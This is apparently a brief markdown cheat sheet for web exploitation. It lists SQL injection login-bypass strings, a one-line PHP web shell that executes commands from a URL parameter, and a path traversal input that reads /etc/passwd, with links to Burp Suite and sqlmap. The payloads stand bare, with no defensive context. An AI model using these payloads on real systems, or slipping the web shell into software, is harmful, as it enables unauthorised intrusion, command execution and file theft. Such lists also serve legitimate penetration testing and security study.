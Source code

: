 # 🌐 Web Exploitation Cheat Sheet

## 🔐 SQL Injection
```sql
' OR '1'='1
admin'--
```
## 🐚 RCE Payload (PHP)
```php
<?php system($_GET['cmd']); ?>
```
## 🔄 LFI
```bash
?page=../../../../etc/passwd
```
## 🛠 Tools
- [[BurpSuite]]
- [[SQL Map]]